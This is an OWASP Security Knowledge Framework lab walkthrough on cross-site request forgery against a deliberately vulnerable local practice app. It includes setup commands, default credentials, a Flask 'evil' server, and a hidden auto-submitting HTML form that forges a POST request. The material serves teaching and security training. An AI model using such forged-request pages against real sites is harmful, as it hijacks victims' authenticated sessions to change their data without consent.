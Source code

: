 # KBID 5 - CSRF

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:csrf
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:csrf
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise 
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to Contrahack.io !](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

CSRF is an attack that tricks the victim into submitting a malicious request. It inherits the identity and privileges of the victim to perform an undesired function on the victim's behalf. For most sites, browser requests automatically include any credentials associated with the site, such as the user's session cookie, IP address, Windows domain credentials, and so forth. Therefore, if the user is currently authenticated to the site, the site will have no way to distinguish between the forged request sent by the victim and a legitimate request sent by the victim.

CSRF attacks target functionality that causes a state change / data mutation on the server, such as changing the victim's email address or password, or purchasing something. Forcing the victim to retrieve data doesn't benefit an attacker because the attacker doesn't receive the response, the victim does. As such, CSRF attacks target state-changing requests.

It's sometimes possible to store the CSRF attack on the vulnerable site itself. Such vulnerabilities are called "stored CSRF flaws". This can be accomplished by simply storing an IMG or IFRAME tag in a field that accepts HTML, or by a more complex cross-site scripting attack. If the attack can store a CSRF attack in the site, the severity of the attack is amplified. In particular, the likelihood is increased because the victim is more likely to view the page containing the attack than some random page on the Internet. The likelihood is also increased because the victim is sure to be authenticated to the site already.

Lets start the application and login with the default credentials.

{% hint style="info" %}
username : admin  
password: admin
{% endhint %}

![](.gitbook/assets/screen-shot-2019-03-04-at-21.00.48.png)

When we are loggedin to the application we can see that we can set our favorite color and this will be stored in the session of the user.

![](.gitbook/assets/screen-shot-2019-03-04-at-21.01.09.png)

If we inspect the request with an intercepting proxy we can see that the application is performing a POST request that results in a data mutation, storing our favorite color into the session of the user and displaying this back to the user in the HTML website.

![](.gitbook/assets/screen-shot-2019-03-04-at-21.01.51.png)

Also we can see that the application is not using any form of protection for preventing CSRF because there is no unique token being send in the POST request.

## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious CSRF using a POST request from. We could achieve this by creating the following python flask application.

```python
from flask import Flask, request, url_for, render_template, redirect, make_response
import requests


app = Flask(__name__, static_url_path='/static', static_folder='static')

app.config['DEBUG'] = True

@app.route("/")
def start():
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to &gt; app.py and run the commands below to install some dependencies.

```text
$ pip install flask
$ pip install requests
$ python app.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious CSRF POST request.

```markup
<iframe style="display:none" name="csrf-frame"></iframe>
<form method='POST' action='http://localhost:5000/update' target="csrf-frame" id="csrf-form">
  <input type='hidden' name='color' value='Hackzord!'>
  <input type='submit' value='submit'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
```

Save the snippet above to &gt; templates/evil.html and run the command below to start our evil application.

```text
$ python app.py
```

Now when we have in the browser tab our active session of the application we can open a new tab where we will load our evil page we just created.

```text
http://localhost:1337/
```

This will now create a POST request to the application and changing the value of blue to the new value of 'Hackzord!' As you can see the Referer is set to our evil website where the request originated from.

![](.gitbook/assets/screen-shot-2019-03-04-at-21.24.14.png)

Also when we refresh the original page of the application we can see that the new vaulue has been replaced with the content of our evil app.

![](.gitbook/assets/screen-shot-2019-03-04-at-21.24.28.png)

## Additional sources

{% embed url="https://www.owasp.org/index.php/Cross-Site\_Request\_Forgery\_\(CSRF\)" caption="" %}

